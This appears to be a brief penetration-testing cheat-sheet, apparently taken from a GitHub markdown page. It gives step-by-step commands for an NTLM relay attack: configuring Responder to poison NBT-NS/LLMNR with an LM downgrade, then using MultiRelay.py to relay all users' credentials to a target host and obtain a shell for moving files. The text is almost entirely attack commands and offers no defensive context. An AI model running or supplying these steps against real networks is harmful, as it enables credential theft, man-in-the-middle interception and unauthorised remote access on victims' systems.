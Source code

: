 # $ responder + $ multirelay for NTLM relay attack
```bash
# disable smb and http service
$ nano /usr/share/responder/Responder.conf # conf file for responder
# responder will not work as fake smb/http server
# it will only poison NBT-NS/LLMNR and becomes MitM
```
```bash
$ responder -I <interface> --lm # run resonder as relay with downgrade ntlm to lm
```
```bash
# target specific host in network with multirelay
$ /usr/share/responder/tools/MultiRelay.py -t <targetIP> -u ALL # relay ALL users
```
```bash
# gets multirelay shel: upload, download files,...
```